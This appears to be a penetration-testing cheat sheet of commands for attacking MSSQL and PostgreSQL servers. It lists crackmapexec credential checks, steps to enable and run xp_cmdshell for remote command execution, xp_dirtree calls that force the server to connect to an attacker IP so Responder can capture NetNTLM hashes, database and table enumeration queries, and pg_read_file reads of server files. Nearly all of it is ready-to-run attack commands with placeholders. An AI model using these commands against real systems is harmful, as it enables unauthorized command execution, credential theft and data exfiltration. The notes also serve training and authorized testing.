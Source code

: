 **MSSQL:**
---
```sh
sqsh -S $TARGET_IP:$PORT -U $TARGET_AD\\$USER -P $PASS
```

```shell
crackmapexec mssql $TARGET_IP -u $USER -p $PASSWORD
```

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -L
```

Try to execute command on server:
```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -x 'ping $ATTACKER'
```
and on attacker box:
```shell
sudo tcpdump -i tun0 icmp -n
```

Try to start mssql_priv:

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -M mssql_priv
```

One client is mssqlclient.py:

```shell
mssqlclient.py $USER:$PASSWORD@$TARGET_AD
```

Or use impacket to open console:

```shell
impacket-mssqlclient $TARGET_DOMAIN/$TARGET_USER:$TARGET_PASSWORD@$TARGET_NAME
```

```bash
impacket-mssqlclient $USER:$PASS@$TARGET_IP -windows-auth
```

Try:

```mssql
enable_xp_cmdshell
```

or:
```mssql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```

in MSSQL server try, start responder on attacker box:
```sql
xp_dirtree "\\$ATTACKER_IP\fake\share";
```

List files:
---

```sql
xp_dirtree "c:\inetpub\";
xp_dirtree "c:\inetpub\",2,2;
```

**List databases:**
---
```sql
SELECT name, database_id, create_date FROM sys.databases;
```

Show current DB name:
```sql
SELECT db_name();
```

```sql
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases;
```

**List tables in selected DB:**
---
#mssql 

```sql
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
```

```sql
SELECT name FROM $DB_NAME..sysobjects WHERE xtype = 'U' order by name offset 1 rows fetch next 1 rows only)
```
List columns:
---
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = '$COLUMN') order by name offset 1 rows fetch next 1 rows only
```

and offset for each entry
List column:
---
```sql
SELECT top 1 $COLUMN from $TABLE ORDER BY $COLUMN;
```
```sql
SELECT top 1 $COLUMN from $TABLE ORDER BY $COLUMN offset 1 rows fetch next 1 rows only;
```
Leak NetNTLM hashes
---
#hash #ntlm #netntlm #responder
Start responder or another hash grabber to get user and hash:

```bash
sudo responder.py -I tun0
```

and trick the MSSQL server to connect to the "share":

```sql
exec master.dbo.xp_dirtree '//$LOCAL_IP/non/existing'
```

POSTGRES
---

```bash
psql -h $TARGET_IP -U $USER -d postgres
```

```postgresql
-- list databases
\l
-- connect to database
\c $DATABASE
-- display tables
\dt
```

```sql
select pg_ls_dir('/var/www');
select pg_read_file('/var/www/flag.txt' , 0 , 1000000);
```